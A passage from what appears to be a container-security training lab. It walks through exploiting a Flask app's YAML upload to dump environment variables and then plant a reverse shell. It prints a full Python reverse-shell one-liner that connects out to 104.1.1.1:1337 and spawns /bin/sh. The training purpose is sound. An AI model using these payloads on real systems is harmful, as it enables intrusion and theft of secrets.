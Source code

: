 #### *Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.*

* Step 10: Navigate to `payloads` directory that has malicious yaml files

```commandline
cd /root/container-training/Kubernetes/K8s-Cluster-Attack/payloads
```

* Step 11: Upload a malicious yaml file and identify the flaw

```commandline
http --form POST $NGFLASK/upload file@test_payment.yml
```

### *It should come back with a response similar to the one below*

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:35:30 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

* Step 11: Verify if the malicious transaction that was generated.

```commandline
http GET $NGFLASK/status
```

> **NOTE**: You should see a dump of all Environment variables on the container.


* Step 12: In the `payloads` directory, edit `line 2` of `reverse_shell.yml` and replace `<serverip>` with value of `serverip` fetched in the previous step.

```commandline
sed -i -e 's/Server_IP_Here/'"$(serverip)"'/g' reverse_shell.yml
```

* Step 13: Check the file to confirm the changes made

```commandline
cat reverse_shell.yml
```
**EXAMPLE**: `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"104.1.1.1\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`

* Step 14: Switch to the left pane of the terminal by running `ctrl` + `b` and then `left arrow key`.
    